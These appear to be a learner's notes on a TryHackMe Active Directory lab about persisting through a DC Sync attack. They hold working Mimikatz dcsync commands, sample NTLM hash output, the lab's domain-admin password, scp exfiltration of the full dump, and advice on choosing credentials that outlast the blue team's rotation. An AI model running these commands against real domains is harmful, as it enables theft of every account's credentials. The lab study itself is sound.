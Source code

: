 When discussing persistence techniques, you will use the privileged credentials to perform the persistence technique on your low-privileged credential set. Make a note of the following DA account:
- Username: `Administrator`
- Password: `tryhackmewouldnotguess1@`
- Domain: `ZA`

The first and least reliable persistence technique that we will discuss is credentials. Several of the lateral techniques discussed in previous rooms would have resulted in the attacker gaining access to credentials. When using the word credentials, it can mean a username and password pair, but in the context of AD, even the password hash is sufficient for authentication through pass-the-hash techniques.

## DC Sync
It is not sufficient to have a single domain controller per domain in large organisations. These domains are often used in multiple regional locations, and having a single DC would significantly delay any authentication services in AD. As such, these organisations make use of multiple DCs. The question then becomes, *how is it possible for you to authenticate using the same credentials in two different offices*?*

The answer to that question is *domain replication*. Each domain controller runs a process called the *Knowledge Consistency Checker (KCC)*. The *KCC* generates a replication topology for the AD forest and automatically connects to other domain controllers *through Remote Procedure Calls (RPC)* to synchronise information. 

This includes updated information such as the user's new password and new objects such as when a new user is created. This is why you usually have to *wait a couple of minutes before you authenticate after you have changed your password* since the *DC where the password change occurred could perhaps not be the same one as the one where you are authenticating to.*

The process of replication is called *DC Synchronisation*. It is not just the DCs that can initiate replication. Accounts such as those belonging to the Domain Admins groups can also do it for legitimate purposes such as creating a new domain controller.

A popular attack to perform is a *DC Sync attack*. If we have access to an account that has domain replication permissions, we can stage a DC Sync attack to harvest credentials from a DC.

**Not All Credentials Are Created Equal**
Before starting our DC Sync attack, let's first discuss what credentials we could potentially hunt for. While we should always look to dump privileged credentials such as those that are members of the Domain Admins group, *these are also the credentials that will be rotated* (a blue team term meaning to reset the account's password) first. As such, *if we only have privileged credentials, it is safe to say as soon as the blue team discovers us, they will rotate those accounts, and we can potentially lose our access.*

The goal then is to persist with near-privileged credentials. We don't always need the full keys to the kingdom; we just need enough keys to ensure we can still achieve goal execution and always make the blue team look over their shoulder. As such, we should attempt to persist through credentials such as the following:

- **Credentials that have local administrator rights on several machines.** Usually, organisations have a group or two with local admin rights on almost all computers. These groups are typically divided into one for workstations and one for servers. By harvesting the credentials of members of these groups, we would still have access to most of the computers in the estate.
-  **Service accounts that have delegation permissions.** With these accounts, we would be able to force golden and silver tickets to perform Kerberos delegation attacks.
-  **Accounts used for privileged AD services.** If we compromise accounts of privileged services such as Exchange, Windows Server Update Services (WSUS), or System Center Configuration Manager (SCCM), we could leverage AD exploitation to once again gain a privileged foothold.

When it comes to what credentials to dump and persist through, it is subject to many things. You will have to get creative in your thinking and take it on a case-by-case basis.

## DCSync All
We will be using Mimikatz to harvest credentials. SSH into THMWRK1 using the DA account and load Mimikatz; Let's start by performing a DC Sync of a single account, our own:

```markup
mimikatz # lsadump::dcsync /domain:za.tryhackme.loc /user:{Your low-privilege AD Username}

[DC] 'za.tryhackme.loc' will be the domain
[DC] 'THMDC.za.tryhackme.loc' will be the DC server 
[DC] 'aaron.jones' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : aaron.jones 

** SAM ACCOUNT **

SAM Username         : aaron.jones
Account Type         : 30000000 ( USER_OBJECT )    
User Account Control : 00000200 ( NORMAL_ACCOUNT ) 
Account expiration   :
Password last change : 4/25/2022 7:30:21 PM
Object Security ID   : S-1-5-21-3885271727-2693558621-2658995185-1429 
Object Relative ID   : 1429

Credentials:
  Hash NTLM: fbdcd5041c96ddbd82224270b57f11fc 
    ntlm- 0: fbdcd5041c96ddbd82224270b57f11fc 
    lm  - 0: 0fd2685aa18c78bd265d02bdec203b04 

[...]

* Primary:WDigest * 
    01  991d45386dd3561e0c5529d3605f96e6
    02  d5d6f25b233c87b289706d7b423f1145
[...]
```

This is great and all, but we want to DC sync every single account. To do this, we will have to enable logging on Mimikatz:
```
mimikatz # log {username}_dcdump.txt Using '{username}_dcdump.txt' for logfile: OK
```

Now, instead of specifying our account, we will use the `/all` flag:
```
mimikatz # lsadump::dcsync /domain:za.tryhackme.loc /all
```

This will take a bit of time to complete. Once done, exit Mimikatz to finalise the dump find and then you can download the `<username>_dcdump.txt` file. You can use `cat <username>_dcdump.txt | grep "SAM Username"` to recover all the usernames and `cat <username>_dcdump.txt | grep "Hash NTLM"` for all hashes. We can now either perform an offline password cracking attack to recover the plain text credentials or simply perform a pass the hash attack with Mimikatz.

### Example
![](Pasted%20image%2020241119183433.png)
```
ssh za\\Administrator@thmwrk1.za.tryhackme.loc
```
![](Pasted%20image%2020241119182814.png)

```
lsadump::dcsync /domain:za.tryhackme.loc /user:leon.hobbs
```

```
mimikatz # lsadump::dcsync /domain:za.tryhackme.loc /user:leon.hobbs 
[DC] 'za.tryhackme.loc' will be the domain 
[DC] 'THMDC.za.tryhackme.loc' will be the DC server 
[DC] 'leon.hobbs' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : leon.hobbs 

** SAM ACCOUNT **

SAM Username         : leon.hobbs
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
Account expiration   :
Password last change : 4/25/2022 6:30:05 PM 
Object Security ID   : S-1-5-21-3885271727-2693558621-2658995185-1165
Object Relative ID   : 1165

Credentials:
  Hash NTLM: 1e3fe4abe3975ac7cb1bc3131d1edc4a
    ntlm- 0: 1e3fe4abe3975ac7cb1bc3131d1edc4a 
    lm  - 0: 33e65f6c59b25681e5057bf5e016d704
```

```
log leon.hobbs_dcdump.txt
Using 'leon.hobbs_dcdump.txt' for logfile : OK 
```

```
lsadump::dcsync /domain:za.tryhackme.loc /all
```

- download the dump file on our attacking machine (using SCP):
```
Windows path -> C:\Tools\mimikatz_trunk\x64\leon.hobbs_dcdump.txt

scp za\\Administrator@thmwrk1.za.tryhackme.loc:C:/Tools/mimikatz_trunk/x64/leon.hobbs_dcdump.txt /root/Downloads
```

```
cat <username>_dcdump.txt | grep "SAM Username"
cat <username>_dcdump.txt | grep "Hash NTLM"
```

- What is the NTLM hash associated with the krbtgt user?
```
lsadump::dcsync /domain:za.tryhackme.loc /user:leon.hobbs
```
OR
```
cat leon.hobbs_dcdump.txt | grep -A 6 "krbtgt" | grep "Hash NTLM"
```
	 -A 6 (output 6 lines which include Hash NTLM credentials)